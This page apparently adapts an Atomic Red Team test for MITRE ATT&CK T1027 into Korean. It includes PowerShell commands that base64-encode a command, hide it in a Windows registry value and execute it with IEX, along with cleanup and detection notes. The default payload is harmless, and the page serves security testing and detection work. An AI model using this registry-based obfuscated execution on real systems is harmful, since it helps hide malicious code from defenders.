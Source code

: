 # T1027 Obfuscated Files or Information

## Descritption
공격자는 시스템 또는 전송 중인 콘텐츠를 암호화, 인코딩 또는 난독화하여 실행 파일이나 파일을 검색하거나 분석하기 어렵게 만들 수 있습니다. 이는 다양한 플랫폼과 네트워크에서 방어를 회피하는 데 사용할 수 있는 일반적인 동작입니다.

## Attack Payload
#### Windows 레지스트리에서 base64로 인코딩된 PowerShell 실행
##### Inputs:

|Name|Description|Type|Default Value|
|---|---|---|---|
|registry_key_storage	|Windows Registry Key to store code|String|HKCU:Software\Microsoft\Windows\CurrentVersion|
|powershell_command	|PowerShell command to encode	|String	|Write-Host "Hey, Atomic!"|
|registry_entry_storage	|Windows Registry entry to store code under key	|String	|Debug|

##### Attack Commands:
``` powershell
$OriginalCommand = '#{powershell_command}'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($OriginalCommand)
$EncodedCommand =[Convert]::ToBase64String($Bytes)
$EncodedCommand

Set-ItemProperty -Force -Path #{registry_key_storage} -Name #{registry_entry_storage} -Value $EncodedCommand
powershell.exe -Command "IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp #{registry_key_storage} #{registry_entry_storage}).#{registry_entry_storage})))"
```
##### Cleanup Commands:
```powershell
Remove-ItemProperty -Force -ErrorAction Ignore -Path #{registry_key_storage} -Name #{registry_entry_storage}
```


## Detection
Windows 레지스트리에 base64로 인코딩된 PowerShell 코드를 저장하고 실행을 위해 난독화 해제합니다. 이것은 수많은 공격자와 악성 도구에 의해 사용됩니다. 성공적으로 실행되면 powershell은 인코딩된 명령을 실행하고 레지스트리에서 읽기/쓰기를 실행합니다.

